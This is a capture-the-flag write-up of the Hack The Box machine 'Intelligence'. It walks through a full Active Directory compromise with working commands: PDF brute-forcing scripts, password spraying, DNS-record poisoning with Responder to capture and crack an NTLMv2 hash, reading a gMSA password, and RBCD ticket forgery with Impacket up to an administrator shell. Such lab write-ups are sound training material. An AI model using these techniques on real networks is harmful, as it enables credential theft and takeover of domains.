---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---

# Intelligence

## Summary

[Intelligence](https://app.hackthebox.com/machines/357) is a <mark style="color:yellow;">medium-rated</mark> machine, featuring a distinctive foothold and a relatively typical privilege escalation route. Initial **enumeration of the web server** uncovers two PDF files containing usernames in their metadata. Leveraging **custom bash scripts**, we **brute-force** additional PDFs for more usernames and useful content. A **password-spray** attack on the SMB server yields an intriguing PowerShell script, serving as the cornerstone for privilege escalation. Futher **analysis of domain data** unveils a route to domain compromise through the [`ReadGMSAPassword`](../../tl-dr/active-directory/permissions/readgmsapassword.md) permission and [**RBCD**](#user-content-fn-1)[^1] exploitation.

<table><thead><tr><th width="84" align="right">Step</th><th width="211">Action</th><th width="225">Tool</th><th>Gained</th></tr></thead><tbody><tr><td align="right">1</td><td>Web server enumeration</td><td><a href="https://github.com/exiftool/exiftool">exiftool</a></td><td>Usernames</td></tr><tr><td align="right">2</td><td>PDF enumeration</td><td><a href="https://ss64.com/bash/bash.html">Bash</a></td><td>Usernames &#x26; Password</td></tr><tr><td align="right">3</td><td>Password spray</td><td><a href="https://x7331.gitbook.io/boxes/tools/tools/active-directory/netexec-cme">NXC</a></td><td>Credentials</td></tr><tr><td align="right">4</td><td>SMB enumeration</td><td><a href="https://x7331.gitbook.io/boxes/tools/tools/active-directory/netexec-cme">NXC</a></td><td><a data-footnote-ref href="#user-content-fn-2">EoP</a> path</td></tr><tr><td align="right">5</td><td><a data-footnote-ref href="#user-content-fn-2">EoP</a> exploitation</td><td><a href="https://github.com/dirkjanm/krbrelayx">dnstool</a>, <a href="https://github.com/SpiderLabs/Responder">responder</a></td><td><a data-footnote-ref href="#user-content-fn-2">EoP</a></td></tr><tr><td align="right">6</td><td>Domain enumeration</td><td><a href="https://x7331.gitbook.io/boxes/tools/tools/active-directory/netexec-cme">NXC</a>, <a href="https://x7331.gitbook.io/boxes/tools/tools/active-directory/bloodhound">BloodHound</a></td><td><a data-footnote-ref href="#user-content-fn-2">EoP</a> path</td></tr><tr><td align="right">7</td><td><a data-footnote-ref href="#user-content-fn-2">EoP</a> exploitation</td><td><a href="https://x7331.gitbook.io/boxes/tools/tools/active-directory/netexec-cme">NXC</a>, <a href="https://github.com/fortra/impacket">Impacket</a></td><td>Domain compromise</td></tr></tbody></table>

## Recon

### Port Scan

Let's start, as we always do, with a [port scan](broken-reference) (Figure 1).

```bash
nmap-scan.sh 10.10.10.248
Creating directory...
Performing initial scan...
Extracting ports...
Performing an aggresive scan on open ports...
All done! See results: less scans/aggressive_scan.nmap
```

<figure><figcaption><p>Figure 1: Services listening on the Intelligence machine.</p></figcaption></figure>

* The <mark style="color:yellow;">yellow-highlighted ports</mark>, as well as the host name (`DC`), indicate that we are dealing with a DC[^3], as they are commonly seen on one.
* The <mark style="color:green;">green-highlighted ports</mark> are interesting ports to keep a note of:
  1. An IIS web server (`80`) which always represents a large attack surface
  2. A WinRM port (`5985`) that we can utilise for our foothold when we obtain credentials.
* The <mark style="color:red;">red-highlighted string</mark> let us know the FQDN[^4] of the machine.

Before jumping on the web server, let's add the hostname (`dc`), the domain (`intelligence.htb`), and the FQDN (`dc.intelligence.htb`) to our local DNS file.

```bash
grep intel /etc/hosts
10.10.10.248    dc.intelligence.htb dc intelligence.htb
```

### IIS Enumeration

The web page does not have many things to explore; the only interesting thing about it are 2 PDF files which are available to download (Figure 2).

<figure><figcaption><p>Figure 2: The PDF files on the IIS web server.</p></figcaption></figure>

Performing [dirbusting](../../tools/web/dirbusting/) and searching for subdomain/vhosts does not return anything, so let's continue by examining the PDF files' metadata.

```bash
exiftool 2020-12-15-upload.pdf
ExifTool Version Number         : 12.76
File Name                       : 2020-12-15-upload.pdf
Directory                       : .
File Size                       : 27 kB
File Modification Date/Time     : 2024:04:20 12:00:52+01:00
File Access Date/Time           : 2024:04:20 12:05:20+01:00
File Inode Change Date/Time     : 2024:04:20 12:00:52+01:00
File Permissions                : -rw-r--r--
File Type                       : PDF
File Type Extension             : pdf
MIME Type                       : application/pdf
PDF Version                     : 1.5
Linearized                      : No
Page Count                      : 1
Creator                         : Jose.Williams

exiftool 2020-01-01-upload.pdf
ExifTool Version Number         : 12.76
File Name                       : 2020-01-01-upload.pdf
Directory                       : .
File Size                       : 27 kB
File Modification Date/Time     : 2024:04:20 12:00:46+01:00
File Access Date/Time           : 2024:04:20 12:05:12+01:00
File Inode Change Date/Time     : 2024:04:20 12:00:46+01:00
File Permissions                : -rw-r--r--
File Type                       : PDF
File Type Extension             : pdf
MIME Type                       : application/pdf
PDF Version                     : 1.5
Linearized                      : No
Page Count                      : 1
Creator                         : William.Lee
```

Examining the PDFs' metadata gives us 2 users back: `Jose.Williams` and `William.Lee`. Not much we can't do with that, other than [creating potential usernames](../../tools/usernames.md) based on those 2 users. Thus, we will do that and jump into SMB.

```bash
# writing the 2 names to a file
nano web_users
# checking file content
cat web_users
Jose Williams
William Lee
# creating username combinations based on the first and last name
username-generator -w web_users > user_gen.lst
username-anarchy -i web_users >> user_gen.lst
# deduplicating the generated user list
sort -u user_gen.lst > users.lst
# counting number of lines on the file
wc -l users.lst
36 users.lst
```

### SMB/LDAP Enumeration

Trying to get information from SMB or RPC without credentials or via a NULL session does not work. Attempting a BFA[^5] using our `users.lst` and `rockyou` or checking for [ASREPRoasting](../../tl-dr/active-directory/attacks/as-reproasting.md) with `users.lst` does not work either.

Not much luck with LDAP as well, it gives us nothing without credentials.

## Brute-Forcing

### Burp Intruder

Let's jump back to our only clue so far: the web server and the PDF files. Their path follows a specific pattern: <mark style="color:red;">`YYYY-MM-DD-upload.pdf`</mark>. Since we are out of options, we can try a BFA[^6] against the PDF pattern which might give us more usernames to work with. We can use Burp Intruder for this task. First, we need to capture the traffic and send it to Intruder (`CTRL+I`) (Figure 3).

<figure><figcaption><p>Figure 3: Capturing the PDF file request.</p></figcaption></figure>

Then, we need to specify the attack type as well as the 2 payload positions within our request, on `MM` and `DD` (Figure 4).

<figure><figcaption><p>Figure 4: Configuring the attack type and payload positions.</p></figcaption></figure>

Next, we have to configure the payloads: `01` to `12` for `MM` and `01` to `31` for `DD`. We need to make sure that the `Min integer digits` option, under `Number format`, is set to `2`. This will ensure that our payload will have the proper format for single digit months and days, i.e., `01` instead of `1` (Figure 5).

<figure><figcaption><p>Figure 5: Configuring the two payloads.</p></figcaption></figure>

Now we are ready to start the attack. The 2 PDF files we know that they exist return the [`304 Not Modified`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Status/304) status code (Figure 3), thus, we are interested in requests that return the same code back (Figure 6).

<figure><figcaption><p>Figure 6: Intruder results sorted by status code.</p></figcaption></figure>

### Bash Scripting

Intruder returned many more results than expected: 85 responses! That's a lot of files to go through manually 1 by 1, so let's make a bash script that downloads each PDF found.


The below script matches the [`200 OK`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Status/200) instead of the [`304 Not Modified`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Status/304) status code because the `curl` command is simplified and the `If-Modified-Since` header is missing.



```bash
#!/bin/bash

# Loop through all months and days in 2020
for month in {01..12}; do
    for day in {01..31}; do
        # Generate the URL with the current month and day
        url="http://dc.intelligence.htb/documents/2020-$month-$day-upload.pdf"

        # Make the GET request with curl
        echo "Requesting ${url}..."
        response=$(curl -s -o /dev/null -w "%{http_code}" "$url")

        # Check if the response code is 200
        if [ "$response" -eq 200 ]; then
            echo "Found: $url"
            # download the file
            wget "${url}"
        fi
    done
done
```


We can confirm that the script worked as expected, as we know that we should have 85 files (86 with our `bfa_pdfs.sh` script) within our directory.

```bash
ls -l | wc -l
86
```

Now, we need to extract the creator of each file well as read its content. Again, we will use bash to do both of these tasks.


```bash
#!/bin/bash

result="pdf_creators.txt"
result_final="creators.txt"

# Loop through all pfd files
for file in $(pwd)/*.pdf; do
  # Extract username from the file's metadata
  creator=$(exiftool "${file}" | grep Creator | awk '{print $3}')
  echo "Appending ${creator} to the list..."
  # Append username to file
  echo "${creator}" >> "${result}"
done

echo "Removing duplicate names..."
# Remove duplicates
sort -u "${result}" > "${result_final}"
echo "Username list ready: ${result_final}"
```


The above script returns a list (`creators.txt`) with 30 usernames. Finally, we need to read the content of each PDF to check if any of them contains anything interesting.


```bash
#!/bin/bash

# Array of words to check for
words=("password" "credentials" "login" "account" "user" "intelligence" "htb")

# Loop through all files
for file in *.pdf; do
  # Convert PDF to text file
  text=$(pdftotext "${file}" -)
  # Loop through each word in the array
  for word in "${words[@]}"; do
    # Check if the line contains the current word
    if grep -q "${word}" <<< "${text}"; then
      echo "Word '$word' found in file: ${file}"
    fi
  done
done
```


Executing the script let us know that only 2 files contain matching data: `2020-06-04.pdf` and `2020-12-30.pdf`. Opening these files we find a plaintext password (Figure 7.1) and the username of a potential sysadmin (Figure 7.2).

```bash
./read_pdfs.sh
Word 'password' found in file: 2020-06-04-upload.pdf
Word 'login' found in file: 2020-06-04-upload.pdf
Word 'user' found in file: 2020-06-04-upload.pdf
Word 'account' found in file: 2020-12-30-upload.pdf
```

<figure><figcaption><p>Figure 7: The ony 2 out of 85 PFD files that contains useful data.</p></figcaption></figure>

The next logical step is to password spray using the plaintext password we just found and our username list. Doing that results in a hit for `Tiffany.Molina`, and enumerating domain users reveals 11 users that are not currently in our list, like `Ted.Graves` (Figure 8). So, we will make sure to add any new users to our previous list.


```bash
# password-spraying
nxc smb 10.10.10.248 -u creators.txt -p NewIntelligenceCorpUser9876 --continue-on-success | grep +
# writing password to a file
echo NewIntelligenceCorpUser9876 > tiffany_pass
# enumerating users via SMB
nxc smb 10.10.10.248 -u tiffany.molina -p tiffany_pass --users
# writing the users to a file
nxc smb 10.10.10.248 -u tiffany.molina -p tiffany_pass --users > nxc_users
# extracting usernames and appending them to the previous list
cat nxc_users | awk 'NR>3 {print $5}' >> creators.txt
# removing duplicates
sort -u creators.txt > dom_users
```


<figure><figcaption><p>Figure 8: Password spraying and enumerating domain users through SMB.</p></figcaption></figure>

## Privilege Escalation

### DNS Exploitation

Enumerating the SMB as `Tiffany.Molina` disclose 2 non-default shares: `IT` and `Users`. Spidering the former exposes just one file: `downdetector.ps1` (Figure 9), which we know that is written by `Ted.Graves` (Figure 7.2). By spidering the latter we can see a bunch of files in different directories and among them, the `user.txt` flag.


```bash
# enumerating SMB shares
nxc smb 10.10.10.248 -u tiffany.molina -p tiffany_pass --shares
# spidering the IT share
nxc smb 10.10.10.248 -u tiffany.molina -p tiffany_pass --spider IT --regex . --depth 1
# download the user flag
nxc smb 10.10.10.248 -u tiffany.molina -p tiffany_pass --share Users --get-file Tiffany.Molina/Desktop/user.txt user.txt
```


<figure><figcaption><p>Figure 9: Enumerating SMB and spidering the IT share.</p></figcaption></figure>

Let's download the script and try to understand what it is doing (Figure 10). It is a relatively straightforward script, but the most interesting thing about it, is the authentication part. It runs every 5 minutes and sends `Ted.Grave`'s authentication credentials to every DNS entry starting with `web`.

<figure><figcaption><p>Figure 10: Downloading and inspecting the <code>downdetector.ps1</code> file.</p></figcaption></figure>

The above process can be exploited by creating a DNS entry that starts with `web` pointing to our machine, so when `Ted.Graves` sends its request along with its credentials, we can just steal them. We can achieve the first part, i.e., adding a DNS entry, using the [`dnstool.py`](https://github.com/dirkjanm/krbrelayx) script and the latter, i.e., stealing `Ted.Graves`\`s credentials, with [responder](https://github.com/SpiderLabs/Responder) (Figure 11).


```bash
# adding a DNS entry
sudo python3 /opt/krbrelayx/dnstool.py -u 'intelligence\tiffany.molina' -p $(cat tiffany_pass) -a add -r 'webx7331' -d '10.10.14.121' 10.10.10.248
[-] Connecting to host...
[-] Binding to host
[+] Bind OK
[-] Adding new record
[+] LDAP operation completed successfully
# starting responder
$ sudo responder -I tun0
```


<figure><figcaption><p>Figure 11: Getting <code>Ted.Grave</code>'s NTLMv2 hash.</p></figcaption></figure>

We can easily crack the NTLMv2 hash with `hashcat`.


```bash
hashcat -m5600 ted_hash /usr/share/wordlists/rockyou
<SNIP>
TED.GRAVES::intelligence:1d3c69be5b5cb2c5:52134e516a2a24e27691f72b2e3ed7e2:0101000000000000308e55d09293da01c333c4a72c4f20440000000002000800410058005000560001001e00570049004e002d00460052004d004e005900300059005100330056005a000400140041005800500056002e004c004f00430041004c0003003400570049004e002d00460052004d004e005900300059005100330056005a002e0041005800500056002e004c004f00430041004c000500140041005800500056002e004c004f00430041004c0008003000300000000000000000000000002000007acd5fece12a177e42ab5a300e946906106c7c1a78487e203966aca9353392540a0010000000000000000000000000000000000009003c0048005400540050002f00770065006200780037003300330031002e0069006e00740065006c006c006900670065006e00630065002e006800740062000000000000000000:Mr.Teddy
<SNIP>
```


### GMSA & RBCD

Usually, we would have collected and analyzed domain data by now, but the SMB server kept us busy. Let's do that now using [NetExec](../../tools/active-directory/netexec-cme.md) and [BloodHound](../../tools/active-directory/hounds.md).


```bash
# collecting domain data
nxc ldap 10.10.10.248 -u ted.graves -p ted_pass --bloodhound -ns 10.10.10.248 -c All
```


BloodHound gives us a path to domain compromise right away (Figure 12):

1. `Ted.Graves` is a member of the `ITSupport` group which has [`ReadGMSAPassword`](../../tl-dr/active-directory/permissions/readgmsapassword.md) permissions over the machine account `svc_int$` . On the PDF file we found ealier (Figure 7.2), it was mentioned that the IT team is "_in process of locking down the service accounts_". Apparently, this one is not locked yet, therefore, we can read its password (Figure 13).
2. `svc_int$` is `AllowedToDelegate` on the service `www/dc.intelligence.htb`, which means that it can request a ST[^7] for any user, including the `administrator` (Figure 14). This is called RBCD[^1] and detailed information about how the process works can be found [here](../../tl-dr/active-directory/attacks/delegation/resource-based.md).

<figure><figcaption><p>Figure 12: Analyzing domain data with BloodHound.</p></figcaption></figure>

```bash
# Reading the gMSA credentials of the machine account
nxc ldap 10.10.10.248 -u ted.graves -p ted_pass --gmsa
```

<figure><figcaption><p>Figure 13: Reading the gMSA password of <code>svc_int$</code>.</p></figcaption></figure>


```bash
# attempting to request a ticket for administrator
impacket-getST -spn 'www/dc.intelligence.htb' -impersonate 'administrator' 'intelligence.htb/svc_int$' -hashes :5ecbb8825fa84b3154a7f12336795ed4
# syncing the time
sudo ntpdate 10.10.10.248
# requesting a ticket for administrator with the time synced
impacket-getST -spn 'www/dc.intelligence.htb' -impersonate 'administrator' 'intelligence.htb/svc_int$' -hashes :5ecbb8825fa84b3154a7f12336795ed4
# exporting the ticket
export KRB5CCNAME=$(pwd)/administrator@www_dc.intelligence.htb@INTELLIGENCE.HTB.ccache
# attempting to log into the machine
impacket-psexec -k -no-pass administrator@dc.intelligence.htb -dc-ip 10.10.10.248
# syncing the time (again!)
sudo ntpdate 10.10.10.248
# logging into the machine
impacket-psexec -k -no-pass administrator@dc.intelligence.htb -dc-ip 10.10.10.248
```


<figure><figcaption><p>Figure 14 : The RBCD process leading to reading the root flag.</p></figcaption></figure>

[^1]: Resource-Based Constrained Delegation

[^2]: Elevation of Privileges

[^3]: Domain Controller

[^4]: Fully Qualified Domain Name

[^5]: Brure Force Attack

[^6]: Brute Force Attack

[^7]: Service Ticket
